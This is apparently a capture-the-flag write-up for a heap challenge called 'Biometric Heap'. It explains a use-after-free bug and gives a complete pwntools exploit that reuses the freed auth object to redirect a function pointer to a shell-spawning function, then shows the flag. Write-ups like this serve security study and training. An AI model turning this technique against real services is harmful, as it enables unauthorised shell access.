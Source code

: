 # Biometric Heap

## Challenge

Connecting to the challenge brings up the following menu:

```
Welcome and congratulations on being hired!
Your biometrics have just been submitted, and a new password has been assigned to you.
Please contact your manager to obtain your password.



Available commands:
Exit - "q"
Change user - "reset"
Clear screen - "clear"
Bring up this menu - "h"
Login as current user - "login"
Identify user - "auth <user id>"
Request service - "service <service name>"
```

If we authenticate, an auth object is allocated and we can try to login.

A random password is generated at the start of the program for this.

If we successfully login, the program will call a function stored in the auth object.
By default the function is `biometrics_authenticator`:

```c
void sym.biometrics_authenticator(void) {
    sym.imp.puts("Under development.\n");
    sym.imp.puts(
                "Biometrics struct will be assigned a specialized biomtrics authentication function for each employee.\n"
                );
    sym.imp.exit(1);
    sym.imp.puts(
                "\nAvailable commands:\nExit - \"q\"\nChange user - \"reset\"\nClear screen - \"clear\"\nBring up this menu - \"h\"\nLogin as current user - \"login\"\nIdentify user - \"auth <user id>\"\nRequest service - \"service <service name>\"\n\n"
                );
    return;
}
```

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

There is a use-after-free vulnerability.
We can free the auth object with the "reset" command, but we can still access the "login" command.

The password and the function after login is stored in the auth object.
By creating an auth object with "auth", then freeing it with "reset", we can overwrite these fields
with our own password and function pointer.

The "service" command allows us to save data onto the heap using `strdup`.
If we can get `strdup` to allocate from the same bin as the freed auth object, we can overwrite its
fields.

So we create an auth object with "auth", free it with "reset" than create a fake object and store it
on the heap using "service".
We can choose our own password and function pointer for the fake object.
The password can be any string of length 8 (too short and the null byte would end the `strdup`, too
long and it overlaps the function pointer).
The function pointer can be the `employee_shell` function, which simply calls `system("/bin/sh")`:

```c
void sym.employee_shell(void) {
    sym.imp.system("/bin/sh");
    return;
}
```


## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host srv3.momandpopsflags.ca --port 3609 biometric_authenticator
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('biometric_authenticator')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'srv3.momandpopsflags.ca'
port = int(args.PORT or 3609)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = flat({
    0x8: b'password',
    0x10: exe.sym['employee_shell'],
    })

io.sendlineafter(b"\"service <service name>\"\n\n", b"auth")
io.sendline(b"reset")
io.sendline(b"servic" + payload)
io.sendline(b"login")
io.sendlineafter(b"Please enter your password or \"q\" to quit: \n", b"password" + pack(exe.sym['employee_shell']))

io.interactive()
```

## Flag

```
magpie{[]v3rwhel|\/|ed_1ntern_()v3rfl0w}
```
